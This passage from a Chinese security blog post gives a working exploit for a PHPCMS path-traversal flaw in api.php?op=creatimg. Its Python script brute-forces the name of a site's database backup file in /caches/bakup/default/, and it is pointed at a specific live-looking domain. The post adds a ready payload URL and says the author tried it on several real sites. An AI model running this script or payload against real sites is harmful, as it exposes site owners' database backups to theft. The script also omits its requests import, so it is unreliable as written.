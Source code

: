 ```
import itertools
characters = "abcdefghjklmnopqrstuvwxyz0123456789ABCDEFGHIGKLMNOPQRSTUVWXYZ_.-"
backup_sql = ""
payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
url = "http://www.cqmxnt.com"
flag = 0
for num in range(1,7):
    if flag:
        break
    for pre in itertools.permutations(characters,num):
        pre = ''.join(list(pre))
        payload = payload.format(location=pre)
        r = requests.get(url+payload)
        if r.status_code == 200 and "PNG" in r.text:
            flag = 1
            backup_sql = pre
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
print("[+] 前缀为：",backup_sql)
flag = 0
for i in range(100):
    if flag:
        break
    for ch in characters:
        if ch == characters[-1]:
            flag = 1
            break
        payload = payload.format(location=backup_sql+ch)
        r = requests.get(url + payload)
        if r.status_code == 200 and "PNG" in r.text:
            backup_sql += ch
            print("[+] ",backup_sql)
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"

print("备份sql文件地址为：",backup_sql+".sql")
```
&#160; &#160; &#160; &#160;这次倒是跑出来了看起来比较完善的文件名了，但是问题又来了，我怎么知道路径呢？这个备份文件到哪儿去找？一开始我也仅仅是看懂了这个代码的意思，没太理解这个payload，就一直在纠结这个问题。
## 问题二：路径问题
&#160; &#160; &#160; &#160;昨天研究了一天，没啥思路，今天就决定亲自操刀，自己本地搭建一个phpcms的测试环境来试试。嘿，还别说，真的就出来了其实路径就是在/caches/bakup/default/这里面，备份数据库文件的路径就是这里面，于是就去测试了一波本地环境的，测试结果如图所示：
[![EDATPK.md.png](https://s2.ax1x.com/2019/05/06/EDATPK.md.png)](https://imgchr.com/i/EDATPK)
[![EDAH2D.md.png](https://s2.ax1x.com/2019/05/06/EDAH2D.md.png)](https://imgchr.com/i/EDAH2D)
[![EDAOrd.md.png](https://s2.ax1x.com/2019/05/06/EDAOrd.md.png)](https://imgchr.com/i/EDAOrd)
&#160; &#160; &#160; &#160;到这里基本就算是成功了，但是还是有几个小问题，那就是python脚本问题，亲自测试了几个站，有的站跑不起来，想了一下，应该是备份文件名有特殊字符的原因，因为脚本定义的字符里面没有满足要求的特殊字符，程序卡在哪儿一直循环，具体情况还在研究，希望哪位兄弟来接着完善一下这个脚本。
## payload
&#160; &#160; &#160; &#160;payload：/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/gv5dmx<<.sql，如果访问这个路径出现一个png图片，则证明漏洞存在。
## 总结